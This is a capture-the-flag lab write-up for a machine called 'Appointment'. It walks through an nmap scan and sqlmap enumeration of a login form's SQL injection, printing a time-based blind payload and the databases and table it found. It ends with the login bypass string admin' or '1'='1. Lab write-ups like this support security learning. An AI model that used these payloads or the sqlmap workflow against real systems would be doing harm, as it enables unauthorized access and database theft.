

# Appointment

## Abstract
*Category* : **Starting Point**<br/>
*Challenge name* : **Appointment**<br/>
*Host* : `10.129.85.215 `<br/>
*Description* : N/A <br/>
*Status* : **SOLVED**

## Walktrough
This is a simple *starting point* challenge.
<br/>
Since this is a machine, let's start with a classic `nmap` scan:
<br/>

```console
nmap -A -T5 10.129.85.215 
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-04 16:52 UTC
Nmap scan report for 10.129.85.215  (10.129.85.215 )
Host is up (0.046s latency).
Not shown: 889 closed ports, 110 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.31 seconds

```

As we can see, port 80 (http) is open, maybe we will find a website, let's go check! 🔍
<br/>
We were right, it is a login page:<br/>


<div style="width: 65%; height: 65%">

  
  
</div>  
<br/>

Since the questions on the challenge page refer to *sql injection*, we immediately launch sql map against the login form:
<br/>

```console
sqlmap -u http://10.129.85.215 / --data="username=user&password=pwd" --method POST --dbs --batch      ─╯
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:48:11 /2022-10-04/

[16:48:11] [INFO] testing connection to the target URL
[16:48:11] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:48:12] [INFO] testing if the target URL content is stable
[16:48:12] [INFO] target URL content is stable
[16:48:12] [INFO] testing if POST parameter 'username' is dynamic
[16:48:12] [WARNING] POST parameter 'username' does not appear to be dynamic
[16:48:12] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[16:48:12] [INFO] testing for SQL injection on POST parameter 'username'
[16:48:12] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:48:13] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[16:48:13] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[16:48:13] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[16:48:13] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[16:48:14] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[16:48:14] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[16:48:14] [INFO] testing 'Generic inline queries'
[16:48:14] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[16:48:15] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[16:48:15] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[16:48:15] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[16:48:25] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[16:48:25] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:48:25] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[16:48:27] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[16:48:29] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[16:48:29] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=user' AND (SELECT 1210 FROM (SELECT(SLEEP(5)))PZbu) AND 'RwBG'='RwBG&password=pwd
---
[16:48:45] [INFO] the back-end DBMS is MySQL
[16:48:45] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[16:48:50] [INFO] fetching database names
[16:48:50] [INFO] fetching number of databases
[16:48:50] [INFO] retrieved: 
[16:49:00] [INFO] adjusting time delay to 2 seconds due to good response times
2
[16:49:00] [INFO] retrieved: information_schema
[16:51:09] [INFO] retrieved: appdb
available databases [2]:
[*] appdb
[*] information_schema

[16:51:47] [INFO] fetched data logged to text files under '/home/rago/.sqlmap/output/10.129.85.215 '
[16:51:47] [WARNING] you haven't updated sqlmap for more than 914 days!!!

[*] ending @ 16:51:47 /2022-10-04/

```

The injection is successful and sqlmap enumerates 2 dbs:
<br/>
```console
appdb
information_schema
```

Let's retrieve the tables of the `appdb` database:
<br/>

```console
sqlmap -u http://10.129.85.215 / --data="username=user&password=pwd" --method POST --tables -D appdb

Database: appdb
[1 table]
+-------+
| users |
+-------+

```
Interesting, let's dump the `users` table:
<br/>

```console
sqlmap -u http://10.129.85.215 / --data="username=user&password=pwd" --method POST --dump -D appdb -T users


```
Unfortunately sqlmap dump in this case seems too instable and fails multiple times 😔
<br/>

the reason seems to be that the colum `pass` of the `users` table contains strange characters:
<br/>
```console
[17:53:13] [ERROR] invalid character detected. retrying..
```
<br/>
Let's try manually with some sqli payloads, directly from the login page...
<br/>
<br/>

The string `admin' or '1'='1` seems to work! (pass this in the `username` field)
<br/>
And boom! 💥💥💥
<br/>
 We have our flag! 🏴

 <div style="width: 65%; height: 65%">

  
  
</div>  
<br/>

  